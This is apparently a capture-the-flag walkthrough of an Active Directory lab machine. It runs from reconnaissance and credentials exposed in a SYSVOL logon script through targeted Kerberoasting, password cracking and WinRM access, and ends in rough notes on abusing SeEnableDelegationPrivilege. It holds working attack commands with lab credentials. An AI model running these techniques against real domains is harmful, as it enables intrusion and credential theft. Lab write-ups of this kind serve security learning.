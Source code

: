 

![](Delegate_Cover.png)

## INFO


```
[*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


It is a normal DC , with Publicly Accessible shares.

![](Shares_.png)

Get a list of domain users.
```
└─# crackmapexec smb 10.10.109.158 -u guest -p '' --rid-brute
```


## INITIAL ACCESS


In the SYSVOL share , found users.bat file that got creds. of A.Briggs !

![](Sysvol_Share.png)

```
# cat /delegate.vl/scripts/users.bat
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P4ssw0rd1#123
```

With Domain User we have a lot of possibilities to attack further.

```
└─# bloodhound-python --username a.briggs --password 'P4ssw0rd1#123' --nameserver 10.10.109.158 --domain delegate.vl --domain-controller DC1.delegate.vl --dns-tcp --collectionmethod all --zip
```


![](Generic_Write.png)

A.Briggs --> GenericWrite Privilege --> N.Thompson who canPSREmote to the DC.



### Generic Write Abuse

```
Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user
```

To abuse , we can use [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) tool !

```
─# python targetedKerberoast.py -d delegate.vl -u a.briggs -p 'P4ssw0rd1#123' --dc-ip 10.10.109.158 --request-user N.Thompson
```


![](Targeted_Kerbereos.png)


Crack the hash !

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt n_thompson.hash
```


Winrm Access

```
└─# evil-winrm -i 10.10.109.158 -u n.thompson -p KALEB_2341
```


The User is Delegation Admins with `SeEnableDelegationPrivilege` enabled.


![](Whoami_Priv.png)



##  [SeEnableDelegationPrivilege](https://harmj4.rssing.com/chan-30881824/article60.html)

Misuse of the **Enable computer and user accounts to be trusted for delegation** user right could allow unauthorized users to impersonate other users on the network.



1 --> If computer$ acc. we good 
	else
			user acc. --> create a new machine acc. / have access to one comp$ at the DC

2 --> add spn --> means set the spn of host/attacker.new.machine [tursted to delegate]

3 --> Set atacker.machine$ dns ip --> attacker ip .

4 --> Trigger the attack and relay the attack !

